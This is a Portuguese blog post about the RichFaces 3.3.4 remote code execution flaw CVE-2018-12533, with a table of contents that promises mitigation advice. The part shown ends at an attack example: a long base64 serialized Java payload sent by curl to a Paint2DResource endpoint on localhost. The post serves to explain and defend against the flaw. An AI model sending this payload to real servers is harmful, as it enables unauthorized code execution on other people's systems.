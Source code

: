 ```yaml
---
layout: post
title: 'RichFaces Vulnerability CVE-2018-12533 RF-14310'
date: 2025-01-02 11:22:00 -03:00
categories:
- richfaces
tags:
- richfaces
- jboss
- vulnerabilidade
author-id: mhagnumdw
image: "assets/img/posts/richfaces-vulnerability-cve-2018-12533-rf-14310/banner.png"
feature-img: "assets/img/posts/richfaces-vulnerability-cve-2018-12533-rf-14310/banner.png"
thumbnail: "assets/img/posts/richfaces-vulnerability-cve-2018-12533-rf-14310/banner.png"
---
```


Demonstra a falha presente no RichFaces 3.3.4 de execução remota de código e como mitigar e/ou bloquear.



- [Exemplo de ataque](#exemplo-de-ataque)
- [Clonar o repositório](#clonar-o-repositório)
- [Decodificando o payload](#decodificando-o-payload)
- [Deserializando a classe Java](#deserializando-a-classe-java)
- [Gerando um payload para testar a vulnerabilidade](#gerando-um-payload-para-testar-a-vulnerabilidade)
- [Como mitigar?](#como-mitigar)
  - [Se você realmente precisa desse endpoint](#se-você-realmente-precisa-desse-endpoint)
  - [Se você não precisa desse endpoint](#se-você-não-precisa-desse-endpoint)
- [Entendendo o fluxo da execução](#entendendo-o-fluxo-da-execução)
- [Quem usa esse recurso?](#quem-usa-esse-recurso)
- [Dicas](#dicas)
- [Links relevantes](#links-relevantes)

> Detalhes da [CVE-2018-12533](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2018-12533). Outras versões do RichFaces são vulneráveis, como pode ser visto [aqui](https://codewhitesec.blogspot.com/2018/05/poor-richfaces.html).

## Exemplo de ataque

```bash
export PAYLOAD_BASE64_RICHFACES='eJx1k8-LFEcUx98MuKtZD0YhIQTJOkpmBrarZ2ZdWdksmv2BGZg14oigEoY3NW-7a62u6q16M9PrYm5evHr1llMgAcG!wJsEctk!IR4kh4CE5Bzp7tUlktSlisenvu9Lfev99Acc8w4uWRcJp2S8jZK8cGRG5O4rFjEnWtxAZbizcZO8HTtJF7oJRrSBjKsvD3479c-Pz6ow24Xjg2G0brV1XZgdbFuXIOenmFQUcxdmBlM14vgunJAoY8Khph4cG4yQkeF0bwcnGGo0UfjtcIckr!RgZpDmjXfhe6hkKZSrAgBfAICF1Dv4Mr-WidK1tElqDRkWfUamb6wekevjhNydX56vPnn661YVqj04ITV6fx0T-nffPjtlopUefORxQqNCg-GTklA27JNTqNWD3PlKlubt69Imwo9NYUATe0Fa9ChCubdFHNvRmjIjZaJ33qtQ6UElYfi8UM1C0mEJbmapI--VNSvZ!yrfwuhD-p3ySYDMwWflc5AWH3J4-q8La692uVpwZ95zR8QPjx73!7x78FVO5A7O5V9iZ2i9!y-9bpLq4ZtP!5578fFW3jsPae4BQGWuMnt-v8hj3RqmjEVEvJkxOYP6sNRo5sX1PIZGU2xbl4fRqJWmvHQqZdEvtk0TKUNbaDAiV2sKQ9Ou8YxGUilSAmt7hwq-1hQ0QV2KiTxXcXNsWCWU04fHRlNQRrJxrz5EH9cX6oGsL9TZjmU8H3KShu8nIZiMtSGHQ6UV7wVyQkGn1V4O2p2lxcXAbQfti4vtVtBpdZZa7VYnaLdbF5eW6981a82HAGMHZ-71jpwc!rCfD26!!v3s!rXipQGgymUgAqcsrjlMYyV9Z4Ph1NHVcijSNJt-DVfCiaKpD6U1fqwZb-DIoRVZPqvzVy8vLyy154vJWa2d35eYsoxxjdCIoviwlr0F6sFSwQ__'
curl "http://localhost:8080/grpfor/a4j/s/3_3_3.Finalorg.richfaces.renderkit.html.Paint2DResource/DATA/${PAYLOAD_BASE64_RICHFACES}.seam"
```
